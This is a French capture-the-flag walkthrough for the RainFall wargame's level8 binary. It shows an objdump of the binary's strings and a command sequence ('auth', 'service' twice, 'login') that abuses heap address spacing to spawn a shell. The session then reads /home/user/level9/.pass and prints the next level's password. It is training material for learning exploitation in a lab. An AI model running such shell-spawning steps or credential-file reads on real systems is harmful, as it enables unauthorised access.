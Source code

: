 On trouve 4 commandes : -reset -auth -service -login.
Lorsque l'on marque "auth a" cela nous set une adresse à gauche à chaque appel l'adresse augmente de 16.
Lorsque l'on marque "service a" cela nous set une adresse à droite à chaque appel l'adresse augmente de 16.
Lorsque l'on marque "login a" cela segfault.

```bash
level8@RainFall:~$ objdump -d level8 -j .rodata

level8:     file format elf32-i386

Disassembly of section .rodata:

08048808 <_fp_hw>:
 8048808:	03 00 00 00                                         ....

0804880c <_IO_stdin_used>:
 804880c:	01 00 02 00 25 70 2c 20 25 70 20 0a 00 61 75 74     ....%p, %p ..aut
 804881c:	68 20 00 72 65 73 65 74 00 73 65 72 76 69 63 65     h .reset.service
 804882c:	00 6c 6f 67 69 6e 00 2f 62 69 6e 2f 73 68 00 50     .login./bin/sh.P
 804883c:	61 73 73 77 6f 72 64 3a 0a 00                       assword:..
```

Nous remarquons qu'il faut une diffèrence de 32 (voir source) entre l'adresse de auth et l'adresse de service afin de lancer login.

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
